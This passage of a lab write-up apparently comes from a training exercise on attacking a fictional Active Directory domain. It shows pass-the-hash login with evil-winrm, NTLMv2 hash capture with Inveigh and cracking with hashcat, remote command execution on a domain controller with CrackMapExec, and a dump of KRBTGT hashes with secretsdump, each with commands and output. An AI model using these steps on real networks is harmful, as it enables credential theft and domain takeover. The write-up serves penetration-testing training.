SMB         172.16.7.50     445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.7.50     445    MS01             [-] INLANEFREIGHT.LOCAL\Administrator:bdaffbfe64f1fc646a3353be1c2c3c99 STATUS_LOGON_FAILURE

┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/ad-enumeration-attacks/part2/raw_data]
└─$ evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

**Got flag from administrators desktop**

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/11/2022  10:32 PM             24 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt
exc3ss1ve_adm1n_r1ights!
```

## Enum CT059

Found CT059 has `GenericAll` to Domain Admins.



Got NTLMv2 hashes via Inveigh. See [inveigh dump](./Inveight_administrator_dump.txt) and [inveigh ntlm_v2 hashes](./Inveigh_NTLMV2_admin_dump.txt)


**Cracked the hashes using hashcat and rockyou wordlist**

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

CT059::INLANEFREIGHT:4d5eb07a0d6d4242:2e711130fc085f7cf9fb809673d0b7f1:010100000000000047fbec18ccd9dc01032b7f8cde3b6ea60000000002001a0049004e004c0041004e0045004600520045004900470048005400010008004d005300300031000400260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c00030030004d005300300031002e0049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c000500260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c000700080047fbec18ccd9dc0106000400020000000800300030000000000000000000000000200000fb0850da4373ffb7f538e31cc27fe84957b12fbce030b07b07a84c21150f5f540a001000000000000000000000000000000000000900200063006900660073002f003100370032002e00310036002e0037002e0035003000000000000000000000000000:charlie1
AB920::INLANEFREIGHT:e58420c01eee133e:7b1331980d561a93f3c79e8650e1c5ea:010100000000000039d8011fccd9dc0173882a10d05b20340000000002001a0049004e004c0041004e0045004600520045004900470048005400010008004d005300300031000400260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c00030030004d005300300031002e0049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c000500260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c000700080039d8011fccd9dc0106000400020000000800300030000000000000000000000000200000fb0850da4373ffb7f538e31cc27fe84957b12fbce030b07b07a84c21150f5f540a0010000000000000000000000000000000000009002e0063006900660073002f0049004e004c0041004e0045004600520049004700480054002e004c004f00430041004c00000000000000000000000000:weasal

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: /home/openclaw/.openclaw/workspace-neo/htb/academy/ad-enumeration-attacks/part2/raw_data/Inveigh_NTLMV2_admin_dump.txt
Time.Started.....: Sat May  2 09:52:22 2026 (1 sec)
Time.Estimated...: Sat May  2 09:52:23 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:   598.0 kH/s (2.99ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 579584/28688770 (2.02%)
Rejected.........: 0/579584 (0.00%)
Restore.Point....: 288768/14344385 (2.01%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: winers -> temyong

Started: Sat May  2 09:52:20 2026
Stopped: Sat May  2 09:52:24 2026
```

## DC01 enum

**Got flag**

```
┌──(openclaw㉿srv1405873)-[~]
└─$ crackmapexec smb 172.16.7.3 -u CT059 -p 'charlie1' -x "type C:\Users\Administrator\Desktop\flag.txt"
SMB         172.16.7.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.7.3      445    DC01             [+] INLANEFREIGHT.LOCAL\CT059:charlie1 (Pwn3d!)
SMB         172.16.7.3      445    DC01             [+] Executed command
SMB         172.16.7.3      445    DC01             acLs_f0r_th3_w1n!
```

**Got KRBTGT hash**

```
└─$ impacket-secretsdump INLANEFREIGHT.LOCAL/CT059:charlie1@172.16.7.3 -just-dc-user KRBTGT
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:b043a263ca018cee4abe757dea38e2cee7a42cc56ccb467c0639663202ddba91
krbtgt:aes128-cts-hmac-sha1-96:e1fe1e9e782036060fb7cbac23c87f9d
krbtgt:des-cbc-md5:e0a7fbc176c28a37
[*] Cleaning up...
```